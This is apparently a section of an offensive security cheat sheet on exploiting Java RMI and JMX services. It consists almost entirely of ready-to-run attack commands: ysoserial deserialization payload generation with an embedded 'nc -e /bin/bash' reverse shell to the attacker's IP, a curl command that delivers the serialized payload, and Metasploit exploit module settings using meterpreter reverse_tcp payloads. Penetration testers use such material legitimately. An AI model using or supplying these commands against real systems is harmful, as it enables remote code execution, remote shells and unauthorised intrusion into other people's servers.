 
## 💥 Exploitation Workflow

### Method 1: Deserialization Attacks

#### ysoserial Exploitation
```bash
# Generate payload
java -jar ysoserial.jar CommonsCollections1 "nc -e /bin/bash <your-ip> 4444" > payload.ser

# Send payload to RMI service
java -cp . RMIClient <target-ip> 1099 payload.ser

# Using curl for HTTP wrapped RMI
curl -X POST -H "Content-Type: application/x-java-serialized-object" --data-binary @payload.ser http://<target-ip>:8080/rmi-endpoint
```

#### Common ysoserial Gadgets
```bash
# List available gadgets
java -jar ysoserial.jar

# Generate different payloads
java -jar ysoserial.jar CommonsCollections5 "command" > payload5.ser
java -jar ysoserial.jar Groovy1 "command" > payload_groovy.ser
java -jar ysoserial.jar Spring1 "command" > payload_spring.ser
java -jar ysoserial.jar Jdk7u21 "command" > payload_jdk.ser
```

### Method 2: Metasploit Exploitation

#### RMI Scanner Module
```bash
msfconsole -x "use auxiliary/scanner/misc/java_rmi_server; set RHOSTS <target-ip>; set RPORT 1099; run"
```

#### RMI Deserialization Attack
```bash
use exploit/multi/misc/java_rmi_server
set RHOST <target-ip>
set RPORT 1099
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST <your-ip>
set LPORT 4444
exploit
```

#### JMX Invocation MBean Attack
```bash
use exploit/multi/misc/java_jmx_server
set RHOST <target-ip>
set RPORT 1617
set LHOST <your-ip>
exploit
```
